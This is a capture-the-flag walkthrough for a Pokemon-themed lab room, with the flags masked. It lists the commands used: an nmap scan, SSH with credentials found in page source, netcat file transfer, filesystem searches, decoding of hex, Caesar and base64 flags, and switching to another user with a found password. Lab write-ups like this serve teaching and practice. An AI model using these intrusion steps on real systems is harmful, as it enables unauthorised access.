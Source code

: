 # Gotta Catch'em All!

- Find the Grass-Type Pokemon

	- `nmap -sV <TARGET_IP>`
	- `<pokemon>:<hack_the_pokemon>` in the source code of the default page...
	- `ssh pokemon@<TARGET_IP>` and enter the password
	- `cd Desktop`
	- `nc -lnvp 1234 < P0kEmOn.zip`
	- `nc <TARGET_IP> 1234 > pokemon.zip`
	- `unzip pokemon.zip`
	- `cd P0kEmOn`
	- `cat grass-type.txt`
	- `50 6f 4b ** 4d 6f ** ** ** 75 ** 62 ** 73 61 75 ** 7d`
	- CyberChef with recipe "From Hex".
	- `*******{*********}`

- Find the Water-Type Pokemon

	- `find / -type f | grep water-type`
	- `cat /var/www/html/water-type.txt`
	- `**************{********}`
	- But this flag has no sense...
	- Caesar Cypher? Yes...
	- `**************{********}`

- Find the Fire-Type Pokemon

	- `find / -type f | grep fire-type`
	- `cat /etc/why_am_i_here?/fire-type.txt`
	- `cat /etc/why_am_i_here?/fire-type.txt | base64 -d`
	- `*******{**********}`

- Who is Root's Favorite Pokemon?

	- `find / -type f | grep root`
	- After a lot of lines... `/home/roots-pokemon.txt`
	- `cat /home/roots-pokemon.txt`. Permission denied. f+ck.
	- After some minutes..
	- `pokemon@root:~/Videos/Gotta/Catch/Them/ALL!$ cat Could_this_be_what_Im_looking_for\?.cplusplus`
	- `sudo su ash` and enter the password.
	- `sudo -l`
	- `cat /home/roots-pokemon.txt`
	- `********`

- Congratulations! Thank You So Much For Completing The Pokemon Room!

	no answer needed



